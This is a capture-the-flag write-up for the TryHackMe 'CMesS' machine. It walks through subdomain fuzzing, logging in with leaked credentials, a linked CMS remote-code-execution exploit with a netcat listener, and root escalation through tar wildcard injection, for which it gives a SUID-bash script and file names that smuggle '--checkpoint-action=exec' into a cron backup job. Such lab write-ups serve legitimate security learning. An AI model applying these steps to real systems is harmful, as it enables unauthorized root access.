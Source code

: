 ```yaml
---
title: /writeups/CMesS
layout: post
permalink: /writeups/CMesS
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/r/room/cmess">"CMesS"</a>

The only interesting thing in the nmap scan is the port 80 so that'll be the place to start.

Unfortunately there's nothing interesting on the default page, and dirbusting gives us nothing either besides the /admin login portal.
However, after running wfuzz:
`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107` (the `--hl 107` filters the results for us to exclude the 404s)
We can find interesting dev.cmess.thm.

<img src="/images/DevCmess.png" alt="dev.cmess.thm" />

And there's obviously an email and a password that we can use to log in on /admin found earlier

After we log in, the admin page greets us with the version of the CMS

<img src="/images/VersionCmess.png" alt="cmess version" />

Searchsploit tells us that there's an authenticated RCE for that exact version.
You can get the exploit [here](https://www.exploit-db.com/exploits/51569)

<img src="/images/ExploitCmess.png" alt="cmess exploit" />

The exploit obviously works and gives us a www-data shell (Remember to start the listener before running the exploit! `nc -lvnp <port>')

# PrivEsc

I think that the PrivEsc is actually the hardest part of this box. 
Running both Linpeas and LinEnum gives us 2 interesting findings.

The first one is the crontab

<img src="/images/LinPeasCmess.png" alt="cmess Crontab finding" />

We can clearly see that it's vulnerable to wildcard injection but we are not able to exploit it yet because we do not have access to the `/home/andre/backup`

For some reason the LinPeas was extremely slow on this machine so I decided to run LinEnum and it gave me this:

<img src="/images/LinEnumCmess.png" alt="LinEnum finding" />

It turns out that this file contains the andre's password

<img src="/images/AndreCmess.png" alt="Andre passwd" />

Now, we've got every piece of information needed to root this machine.

First, we ssh as andre:
`ssh andre@<ip>`
and provide the password found in the backup file.

Thanks to that, we have access to `/home/andre/backup`, so let's cd there.
`cd /home/andre/backup`

Now we can proceed with the wildcard injection...
`nano shell.sh`
In the nano  we write:
```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
Now, we have to create some files to make the cron execute our shell.sh
```
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" > --checkpoint=1
```
And now we wait.

After a minute we should see a SUID copy of bash in the /tmp directory.
To get the root we simply run it:
<img src="/images/RootCmess.png" alt="Root CMess" />

Thank you for reading
